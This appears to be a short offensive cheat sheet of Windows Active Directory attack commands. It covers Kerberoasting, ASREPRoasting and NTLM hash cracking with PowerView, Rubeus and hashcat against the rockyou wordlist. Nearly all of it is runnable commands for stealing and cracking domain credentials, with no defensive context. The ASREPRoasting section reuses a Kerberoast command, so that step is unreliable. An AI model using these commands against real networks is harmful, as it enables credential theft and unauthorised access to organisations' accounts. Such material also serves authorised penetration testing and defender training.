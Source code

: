 
hashcat64.exe --help | find "NTLM"
### Kerberoasting 
```
PowerShell Get-DomainUser -SPN -Properties SamAccountName, ServicePrincipalName

Rubeus kerberoast /outfile:hashes.asreproast


hashcat64.exe -a 0 -m 13100 C:\Users\NyaMeeEain\hashes.asreproast C:\Users\NyaMeeEain\Data\rockyou.txt -o winpass2.txt --force  --potfile-disable
```

### ASREPRoasting
 
```
Rubeus kerberoast format:hashcat /outfile:hashes.asreproast



hashcat64.exe -a 0 -m 18200 C:\Users\NyaMeeEain\hashes.asreproast C:\Users\NyaMeeEain\Data\rockyou.txt --force  --potfile-disable


```
### NTLM
```
hashcat64.exe -a 0 -m 1000 C:\Users\NyaMeeEain\Desktop\ntlm.txt rockyou.txt
```
